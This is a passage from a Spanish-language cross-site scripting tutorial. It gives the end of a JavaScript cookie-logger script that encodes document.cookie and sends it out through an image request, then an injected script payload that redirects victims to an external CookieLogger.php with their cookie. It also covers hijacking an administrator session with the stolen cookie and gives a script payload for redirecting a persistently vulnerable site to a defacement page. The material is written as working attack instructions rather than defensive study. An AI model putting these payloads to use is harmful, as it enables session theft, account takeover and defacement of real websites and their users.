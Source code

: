 ```
} else if (SAFECHARS.indexOf(ch) != -1) {
encoded += ch;
} else {
var charCode = ch.charCodeAt(0);
if (charCode > 255) {
alert( "Unicode Character '"
+ ch
+ "' cannot be encoded using standard URL encoding.\n" +
"(URL encoding only supports 8-bit characters.)\n" +
"A space (+) will be substituted." );
encoded += "+";
} else {
encoded += "%";
encoded += HEX.charAt((charCode >> 4) & 0xF);
encoded += HEX.charAt(charCode & 0xF);
}
}
} // for
 
return encoded;
};
 
cookie = URLEncode(document.cookie);
html = '<img src="'+ownUrl+'?'+cookie+'">';
document.write(html);
 
< ?php
}
?>
```

* Ahora que tenemos nuestro script, podemos enviar el registrador de cookies a cualquier página vulnerable.&#x20;

&#x20;Esta es la secuencia de comandos que se iniciará el registro de las cookies.

```
<script>document.location="http://www.host.com/mysite/CookieLogger.php?cookie=
" + document.cookie;</script>
```

Una vez que obtenga la cookie, puede utilizar el addon de Firefox "**cookies Manager**" para manipular y editar las cookies para que pueda secuestrar la sesión de los administradores.

### **Defacing**

Defacing es una de las cosas más comunes que la gente le gusta hacer cuando no tienen acceso a las opciones de administrador múltiples. Sobre todo, para que puedan anunciarse a sí mismos, y simplemente dejar que el administrador sepa que su seguridad ha sido violada. De todas formas, defacear **requiere XSS persistentes**. Puede utilizar esta secuencia de comandos para redirigir a su página de deface:

```
<script>window.location="http://www.pastehtml.com/YOURDEFACEHERE/";</script>
```
